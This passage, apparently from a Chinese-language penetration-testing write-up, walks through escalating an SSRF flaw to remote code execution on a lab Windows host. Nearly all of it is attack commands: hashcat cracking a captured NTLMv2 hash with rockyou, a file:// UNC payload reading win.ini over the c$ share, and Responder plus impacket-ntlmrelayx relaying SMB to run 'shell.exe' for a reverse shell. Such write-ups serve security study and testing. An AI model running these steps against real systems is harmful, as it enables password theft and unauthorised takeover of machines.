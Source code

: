 ```plain
# 解压 rockyou.txt.gz
gzip -d /usr/share/wordlists/rockyou.txt.gz
# 爆破密码
sudo hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.0.123.txt /usr/share/wordlists/rockyou.txt
```

[![](assets/1701606471-466ddf3bbc44e6ffb96e11ae9aaa85d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143411-f9cdde0c-8cee-1.png)

成功爆破到 administrator 账户密码为 123456，下面尝试利用 Relay 中继尝试升级 SSRF 漏洞为 RCE 漏洞。

判断被攻击 IP 能否读取到`win.ini`，如果可以，说明存在 SSRF 的漏洞主机与被攻击机器拥有相同的 NTLM Hash，故可以考虑中继或者读取敏感文件内容，前提是`c$`共享存在，有些环境是不存在的。

```plain
file:////192.168.0.128/c$/windows/win.ini
```

然后，接着通过 ntlmrelayx 进行 SMB 中继反弹 shell。

```plain
# 禁用 445 http，SSRF 利用的话该步骤不需要做，
vim /usr/share/responder/Responder.conf 
sudo responder -I eth0 -v

# 使用 ntlmrelayx 进行中继
sudo impacket-ntlmrelayx  -t 192.168.0.128 -smb2support -e "shell.exe"
```

[![](assets/1701606471-1f414eed5ceb64cffe94dab4776d0d33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143420-ff604508-8cee-1.png)
